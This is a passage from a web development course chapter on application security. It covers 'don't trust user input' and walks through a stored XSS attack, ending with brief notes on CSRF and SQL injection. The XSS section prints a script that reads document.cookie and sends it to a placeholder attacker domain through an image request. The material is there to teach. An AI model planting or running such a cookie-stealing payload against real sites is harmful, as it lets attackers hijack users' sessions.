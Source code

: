 # 9.9: Security

App security is an important aspect of anything that is on the internet. Depending on the type of application security could be a crucial aspect of the operation of an app.

#### Securing an App

There is no such thing as a perfectly secure web application. The most secure software application that can be made would be installed on an [air gapped computer](https://en.wikipedia.org/wiki/Air_gap_%28networking%29) in a hermetically sealed room. It would be difficult to even give input or get any output from this theoretical computer since every possible mode of interaction could introduce security vulnerabilities. \(A computer can be vulnerable if someone can simply [listen to a user typing on the computer](https://en.wikipedia.org/wiki/Acoustic_cryptanalysis)\).

Many security vulnerabilities will simply result from human behavior and for which there is no technical solution, e.g., users [writing their passwords](https://arstechnica.com/information-technology/2015/04/hacked-french-network-exposed-its-own-passwords-during-tv-interview/) on [post-its.](https://www.vice.com/en/article/qvwmx5/the-agency-that-messed-up-hawaiis-nuclear-alert-keeps-passwords-on-post-its-vgtrn)

#### Making an App Secure

The process of making an application secure involves applying industry best-practices, some of which we have already covered, such as hashing passwords. These best practices would also include organizational processes, such as limiting employees' access to sensitive company data. We won't be able to cover every single best practice here, as it also depends on which features are included into an app.

There are many resources on the web for application security:

* [OWASP](https://owasp.org/www-project-top-ten/)
* [Ruby on Rails Security](https://guides.rubyonrails.org/security.html)
* [MDN](https://developer.mozilla.org/en-US/docs/Web/Security)

#### Don't Trust User Input

The essential principle for security of web apps is: _**Don't Trust User Input**_. If this principle is followed when constructing any feature of the app then the attack surface will be reduced significantly. We'll define user input broadly as anything that the app receives in a request.

In the following examples we'll see some ways in which the user input was not treated as dangerous, which can lead to some wide-ranging consequences.

In general we'll also see that in order to exploit any security vulnerability the attacker must have comprehensive knowledge of how a web application system works, from HTTP to JavaScript, etc. That also means that in order to assure the security of an application, that person must also have a deep understanding of all levels of the application.

## XSS

XSS stands for Cross-Site Scripting. This is a vulnerability where a malicious attacker is allowed to save a snippet of JavaScript in the system that will be displayed later.

When that snippet is run on other site visitors browsers, the attacker can run a number of different kinds of insecure programs.

Here is how we would implement an XSS attack:

#### XSS Part 1 - Saving unsanitized user input

The first part of an XSS attack is the ability of an attacker to save JavaScript into the database.

```text
<script>alert('hey!')</script>
```

If we paste this HTML snippet directly into the form input it will be saved to the database.

#### XSS Part 2 - Displaying unsanitized user input

Once this "cat" record has been saved to the database, any user who navigates to a page displaying this "cat" will run the JavaScript snippet above.

#### XSS Part 3 - Capturing and sending user session cookies

Now that we have the ability to run arbitrary JavaScript for every user who visits the site, we do malicious things. One of the worst might be to steal the session cookie of any logged in user.

In order to do that we need to save a particular kind of JavaScript, one that gets a hold of the user's cookie and sends it to a server we control.

```text
<script>
var allCookies = document.cookie;

// don't do an AJAX request in case there are CORS issues
// create an image tag
var imgEl = document.createElement('img');

// settting the img src causes the browser to try and request from this domain
imgEl.src = 'http://my-bad-domain.com?'+allCookies;
</script>
```





CSRF

A request can be sent as the viewing user.

A request can be forged by an attacker.

SQL Injection

Any SQL can be run on the system.

